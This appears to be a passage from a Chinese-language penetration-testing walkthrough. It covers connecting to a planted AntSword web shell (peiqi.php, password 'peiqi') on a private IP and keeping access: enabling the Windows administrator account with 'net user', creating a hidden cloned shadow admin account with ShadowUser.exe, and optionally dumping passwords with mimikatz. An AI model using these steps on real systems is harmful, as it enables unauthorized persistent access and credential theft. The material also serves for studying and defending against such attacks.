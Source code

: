     ![](./img/9.png)
    蚁剑连接,地址为 http://192.168.8.150/peiqi.php 密码 peiqi
    ![](./img/10.png)

- 权限维持

    激活 administrator 用户(极少数特殊情况,会禁用管理员用户,也可以等克隆之后直接激活克隆后的账户)
    `net user administrator /active:yes`
    添加影子账号(或者上传 mimikatz 抓取密码也行)
    `ShadowUser.exe test administrator` 前面是要添加的用户名,后面是要克隆的用户名